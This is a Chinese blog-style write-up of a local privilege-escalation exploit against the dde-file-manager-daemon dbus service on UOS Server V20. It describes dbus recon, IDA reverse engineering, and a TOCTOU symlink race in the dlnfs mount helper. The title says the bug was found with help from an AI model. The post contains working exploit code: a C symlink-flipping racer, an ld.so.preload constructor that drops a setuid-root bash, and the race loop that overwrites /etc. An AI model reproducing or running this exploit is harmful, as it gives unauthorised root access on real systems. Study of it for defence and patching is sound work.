结合GLM5.3，挖掘了一个UOS server V20的dbus提权漏洞交hw，具体的思路我们复盘学下

## dde-file

### 信息收集

进程完整名称为`dde-file-manager-daemon`



从dbus信息收集开始，筛选root的dbus，定位到这个dbus



并且在`/etc/dbus-1/system.d/`的conf文件中，发现允许任意用户发送消息



手动尝试调用

```
busctl --system call com.deepin.filemanager.daemon /com/deepin/filemanager/daemon/MountControl com.deepin.filemanager.daemon.MountControl Mount 'sa{sv}' "/home/zhang/Desktop/test" 1 "fsType" "s" "dlnfs"
a{sv} 3 "errMsg" s "" "errno" i 0 "result" b true
```



- 其中，mount函数意思是挂载，挂载操作能够改变操作系统对文件权限的修改

相当于我们通过普通用户，调用root的dbus，执行力root的mount操作

- "fsType": "dlnfs"是通过逆向二进制文件得来
- sa{sv} 是参数类型，代表：路径 + 键值对字典

可以看到，成功挂载上了，挂载所有者是root



dlnfs是为了解决linux系统的utf-8编码导致的中文文件长度受限问题，之后发展为提权是利用了TOCTOU

### 查找动态链接so文件

通过ida逆向，主程序中并没有dbus的业务，继续查看动态链接库

```
ldd /usr/bin/dde-file-manager-daemon
```

并没有发现敏感库

```
strings -a /usr/bin/dde-file-manager-daemon | grep -iE "plugin|\.so|chmod|dbus"
```

通过字符串查找，找到新的目录



确认主程序确实没有dbus接口实现，nm命令是查看文件中的符号

```
nm -D /usr/bin/dde-file-manager-daemon | grep -iE "accesscontrol|usershare|mountcontrol"
```

列出插件清单

```
ls -la /usr/lib64/dde-file-manager/plugins/daemon-edge/
```



这四个so文件和对象方法互相印证

之后我们定位mount挂载的文件进行分析

### ida逆向分析

- ctrl + E 查看导出表，有`qt_plugin_instance`，是一个qt插件，没有main，这个就相当于起点



`*(_QWORD *)v2 = &off_22B170; `创建了一个虚表，是mountcontrol类，并返回

跟踪这个对象的生命周期



- G定位到`0x15b40`的checkAuth函数



通过名称和：checkAuthorizationSync等锚点，分析到这是一个鉴权函数，鉴权结果为1时，返回true

- 在`DlnfsMountHelper::mount`函数中，能够发现，完整的命令为

```
dlnfs -o atomic_o_trunc,nonempty,use_ino,... path --base path
```



进行了两次--base，path这个字符串使用了两次，且使用时机不同，，在这个时间差内，存在TOCTOU窗口

之后定位dlnfs发现竞态并不发生在这个二进制，查看这个的二进制

- 在dlnfs这个二进制文件中



这四个函数的顺序导致了竞态的发生

`init_dlnfs_conf()`这个函数负责校验，被固定了

`fuse_main_real()`这个函数猜负责真正的mount

同一个path字符串，在两个不同的时间被内核独立解析了两次

使用了符号链接，允许两次解析跳到不同的目标；因为linux在open()、mount()等操作的时候，默认跟随符号链接

### 脚本编写

- 竞态文件：filpper.c

实现路径的高频率交换

```c
/* 原子符号链接翻转器: 高频在两个目标间交替, 用于在 dlnfs "打开base" 与 "mount(2)" 之间制造分叉 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <time.h>
int main(int argc, char **argv) {
    /* argv: linkpath target1 target2 seconds */
    const char *link = argv[1], *t1 = argv[2], *t2 = argv[3];
    int secs = atoi(argv[4]);
    char tmp[4096];
    snprintf(tmp, sizeof(tmp), "%s.tmp%d", link, getpid());
    time_t end = time(NULL) + secs;
    while (time(NULL) < end) {
        if (symlink(t1, tmp) == 0) rename(tmp, link);  /* rename 原子替换 */
        if (symlink(t2, tmp) == 0) rename(tmp, link);
    }
    if (symlink(t1, tmp) == 0) rename(tmp, link);      /* 收尾回到安全目标 */
    return 0;
}
```

- 创建提权脚本，在具有root权限的进程中创建一个suid的rootbash副本

```c
/* ld.so.preload payload (v3): 以 root 运行时落地 setuid-root bash
 * 落点回退链: /var/tmp (根分区 xfs, 首选) -> $HOME/.dbug (xfs, 防 /var/tmp 被删/不可用)
 * 目标机约束: /tmp 为 tmpfs+nosuid(不可用); /home 部分进程受 ProtectHome 拦截但 sudo 不受限
 * 幂等 + 残骸免疫: 落点若残留普通属主文件, 先 unlink 再新建(仅 truncate 属主不会变, suid 将无效) */
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>

static const char *T[] = { "/var/tmp/rb", "/home/zhang/.dbug/rb", 0 };  /* exp.sh 生成时注入实际 HOME */

static int cp_bash(const char *dst) {
    int in = open("/usr/bin/bash", O_RDONLY);
    if (in < 0) return -1;
    int out = open(dst, O_CREAT | O_WRONLY | O_TRUNC, 04755);
    if (out < 0) { close(in); return -1; }
    char buf[65536];
    long n;
    while ((n = read(in, buf, sizeof(buf))) > 0) write(out, buf, n);
    fchmod(out, 04755);            /* 确保 suid 位, 不受进程 umask 影响 */
    close(in);
    close(out);
    return 0;
}

static int rb_ok(const char *p) {
    struct stat st;
    return stat(p, &st) == 0 && st.st_uid == 0 && (st.st_mode & 04000);
}

static void __attribute__((constructor)) pwn(void) {
    int i;
    if (geteuid() != 0) return;    /* 仅在 euid=0 的进程中动作 */
    for (i = 0; T[i]; i++)
        if (rb_ok(T[i])) return;                       /* 已有有效产物, 幂等退出 */
    for (i = 0; T[i]; i++) {
        unlink(T[i]);                                  /* 清残骸(含普通属主文件) */
        if (cp_bash(T[i]) == 0 && rb_ok(T[i])) return; /* 落点成功即停 */
    }
}
```

使用了`LD_PRELOAD`机制，指定一个或多个共享库，这些库在程序启动时被优先加载

- 主exp

```sh
# ---------- 竞速主循环 ----------
WIN=0
for round in $(seq 1 "$ROUNDS"); do
    reset_all_mounts
    sleep 0.4
    ln -sfn "$WORK/etc_mirror" link
    rm -f link.tmp* 2>/dev/null
    ./flipper link "$WORK/etc_mirror" /etc 5 >/dev/null 2>&1 &
    FP=$!
    # 翻转窗口内持续投放挂载请求(而非一次性), 覆盖守护进程串行处理延迟
    ( end=$((SECONDS+4)); while [ $SECONDS -lt $end ]; do MOUNT "$WORK/link" >/dev/null 2>&1 & sleep 0.25; done ) &
    FEED=$!
    wait $FP 2>/dev/null
    kill $FEED 2>/dev/null
    sleep 0.5
    if [ "$(cat /etc/ld.so.preload 2>/dev/null)" = "$WORK/pwn.so" ] && grep -q "^root:" /etc/passwd 2>/dev/null; then
        log "[+] 第 $round 轮命中: /etc 已由攻击镜像覆盖, 触发 root 执行..."
        for t in $(seq 1 10); do
            trigger && break
            sleep 2          # 持续窗口 >60s, 覆盖 cron 分钟周期(其自身即会触发 ctor)
        done
        if rb_ready; then WIN=1; fi
        # 无论成败立即恢复系统
        reset_all_mounts
        break
    fi
    log "[*] 第 $round 轮未分叉(或自镜像), 重试"
done

# ---------- 结果 ----------
if [ "$WIN" = 1 ]; then
    echo
    log "[+] 提权成功! root shell: $RB -p"
    "$RB" -p -c 'id'
    # 自愈: 若系统 /var/tmp 缺失则用 root 权限修复(标准 1777)
    if [ ! -d /var/tmp ]; then
        "$RB" -p -c 'mkdir -p /var/tmp && chmod 1777 /var/tmp' 2>/dev/null \
            && log "[*] 已自动修复缺失的系统目录 /var/tmp (1777)"
    fi
    exit 0
else
    echo
    log "[-] $ROUNDS 轮未成功; 可重跑或增大轮数: ./exp.sh 60"
    [ -e /etc/ld.so.preload ] && log "[!!] /etc/ld.so.preload 仍存在, 请立即报告"
    exit 1
fi
```

结果：




### TOCTOU

**Time-Of-Check to Time-Of-Use**，是指在检查某个状态到使用某个状态之间存在的时间间隔，在这段间隔中，状态被其他人修改了，从而导致漏洞，也就是 先检查-后执行 模式，没有使用内置锁来实现原子性

- 检查：程序检查文件是否属于当前用户，确认安全
- 空档期：在几微秒的时间内，迅速删掉文件，创建一个指向`/etc/passwd`的软连接
- 使用：程序以root权限像文件写入内容


